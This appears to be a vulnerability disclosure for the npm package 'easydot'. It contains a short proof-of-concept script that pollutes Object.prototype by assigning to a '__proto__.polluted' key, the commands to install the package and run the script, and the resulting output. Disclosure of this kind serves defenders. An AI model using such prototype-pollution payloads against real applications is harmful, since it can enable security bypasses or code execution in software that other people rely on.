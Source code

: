 # Description

`easydot` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var easydot = require("easydot")
var obj = {}
const easy = easydot(obj);
console.log("Before : " + {}.polluted);
easy['__proto__.polluted']= 'Yes! Its Polluted';
console.log("After : " + {}.polluted)
```


2. Execute the following commands in terminal:

```
npm i easydot # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
``` 
